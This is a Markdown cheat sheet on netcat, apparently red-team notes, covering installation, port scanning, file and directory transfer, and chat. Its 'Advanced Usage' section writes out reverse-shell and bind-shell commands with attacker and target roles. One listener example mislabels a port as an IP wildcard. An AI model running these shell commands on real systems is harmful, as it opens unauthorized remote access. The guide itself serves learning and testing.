 # Netcat 🐾📡
#Tool #RED #TTNet 

Netcat (often called the “Swiss Army knife” of networking) is a versatile tool for network debugging, testing, and exploration. This guide will help you master Netcat like a networking wizard. 🧙‍♂️✨

**LINK TO TOOL DOCUMENTATION[ HERE](https://www.kali.org/tools/netcat/)**

**Netcat (nc)** is a powerful networking utility for reading and writing data across networks. It's used for:
- Debugging and testing network connections.
- File transfers.
- Port scanning.
- Setting up reverse shells and backdoors.

---
![net cat](https://upload.wikimedia.org/wikipedia/ru/2/29/Netcat_logo.png)

---

### 🛠 Features:
- Connect to and listen on TCP/UDP ports.
- Transfer files between systems.
- Perform port scanning.
- Support for scripting and automation.

---

### 🚀 Installing Netcat (nc)

#### 🔹 **Debian/Ubuntu** 
```sh 
sudo apt update && sudo apt install netcat -y
```

#### 🔹 **Windows (Nmap Version)**
Download from: [Nmap Netcat](https://nmap.org/ncat/)

---

## 🧰 Common Commands

## 🌟 Most Commonly Used Command
```bash
nc -nvlp *.*.*.*
```
Set up a listener with numeric IPs, verbose output, and a specified port.

### 🔍 Basic Port Scanning
```bash
nc -zv 192.168.1.1 20-80
```
Scan ports 20 to 80 on a target host.

### 📡 Establish a TCP Connection
```bash
nc 192.168.1.1 80
```
Connect to port 80 on the target host.

### 🛠 Listen for Incoming Connections
```bash
nc -l -p 1234
```
Set up a listener on port 1234.

### 🔄 File Transfer (Send)
```bash
nc -w 3 192.168.1.2 1234 < file.txt
```
Send a file to a listener.

### 🔄 File Transfer (Receive)
```bash
nc -l -p 1234 > file.txt
```
Receive a file sent to a listener.

---

## ⚙️ Advanced Usage

### 🌐 Create a Reverse Shell
#### Listener (on Attacker Machine):
```bash
nc -l -p 4444
```
#### Target Machine:
```bash
nc 192.168.1.10 4444 -e /bin/bash
```
Establish a reverse shell to the attacker machine.

### 🖥️ Create a Bind Shell
#### Target Machine:
```bash
nc -l -p 5555 -e /bin/bash
```
#### Attacker Machine:
```bash
nc 192.168.1.20 5555
```
Connect to the bind shell on the target machine.

### 📜 HTTP Requests
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
Manually send an HTTP GET request to a web server.

### 🛡️ Transfer Directories
#### On Sending Machine:
```bash
tar -czf - /path/to/dir | nc -w 3 192.168.1.2 1234
```
#### On Receiving Machine:
```bash
nc -l -p 1234 | tar -xzf -
```
Transfer an entire directory over the network.

---

## 📋 Handy Options

| Option        | Description                                     |
|---------------|-------------------------------------------------|
| `-l`          | Listen for incoming connections                 |
| `-p`          | Specify the local port to use                  |
| `-z`          | Perform a port scan without sending data       |
| `-v`          | Enable verbose mode                            |
| `-e`          | Execute a command after connection             |
| `-w`          | Set a timeout for connections (in seconds)     |
| `-u`          | Use UDP instead of TCP                         |

---

## 🌐 Example Scenarios

### Scenario 1: Simple Chat Between Two Machines
#### Machine A:
```bash
nc -l -p 5678
```
#### Machine B:
```bash
nc 192.168.1.5 5678
```

### Scenario 2: Copy Files Across Hosts
#### Sender:
```bash
nc -w 3 192.168.1.2 1234 < secret.zip
```
#### Receiver:
```bash
nc -l -p 1234 > secret.zip
```

### Scenario 3: Basic TCP Port Scan
```bash
nc -zv 192.168.1.10 20-100
```

---

## 🚀 Pro Tips

### 1️⃣ Combine with Scripts
Use Netcat in scripts to automate testing and data collection.

### 2️⃣ Use with Sudo
Elevated permissions may be required for specific ports and operations.

### 3️⃣ Secure Connections
Netcat itself does not encrypt connections. For secure alternatives, consider tools like **Socat** or SSH.

---

## 📚 References
- [Netcat Official Documentation](https://manpages.ubuntu.com/manpages/bionic/man1/nc.1.html)
- [Network Basics Guide](https://en.wikipedia.org/wiki/Network_socket)

---

